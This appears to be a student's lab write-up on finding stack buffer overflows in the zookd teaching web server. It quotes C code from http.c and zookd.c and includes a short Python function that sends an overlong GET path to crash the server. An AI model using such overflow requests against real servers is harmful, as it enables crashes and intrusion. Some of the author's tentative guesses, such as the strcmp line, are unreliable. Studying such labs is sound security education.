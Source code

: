 took me long time to figure out, what I need to do is to find buffer overflow in `http.c` file...I thought I might die in `gdb -p $(pgrep zookd-exstack)`...

PART1: Finding buffer overflows

①

from `zookd.c` file
```
static void process_client(int fd)
{
    char reqpath[2048];
    ...
    if ((errmsg = http_request_line(fd, reqpath, env, &env_len)))
    ...
}
```

in `http.c` function `http_request_line`
```
const char *http_request_line(int fd, char *reqpath, char *env, size_t *env_len)
{
    static char buf[8192]; 
    ...
    sp1 = strchr(buf, ' ');
    ...
    /* decode URL escape sequences in the requested path into reqpath */
    url_decode(reqpath, sp1);
}

```
So, we can set the input reqpath longer than 2048, this will crash the server

```
def build_exploit(shellcode):
    reqpath = "/" + "a"*3000
    req = "GET " + reqpath + "HTTP/1.0\r\n" + "\r\n"
    return req
```

An interesting I found in the same time is, if I set the `reqpath = "/" + "a" * 1024` this seems normal nothing bad return even no path error return

②
still in function `http_request_line`
```
const char *http_request_line(int fd, char *reqpath, char *env, size_t *env_len)
{
    ...
    envp += sprintf(envp, "REQUEST_URI=%s", reqpath) + 1;
}
```

in `zookfs.c`[line:47]
```
http_serve(sockfd, getenv("REQUEST_URI"));
```

back to `http.c`
```
void http_serve(int fd, const char *name)
{
    char pn[1024];
    ...
    strcat(pn, name);
    ...
    handler(fd, pn);
}
```

so this handler can be `http_serve_executable` or `http_serve_directory` or `http_serve_file`

and hmm set reqpath to something over length 1024 seems some bad things will happend, but I still not get this, as nothing happened...

③
http.c:91
`if (strcmp(buf, "GET") && strcmp(buf, "POST"))`
I think this strcmp should be a exploit
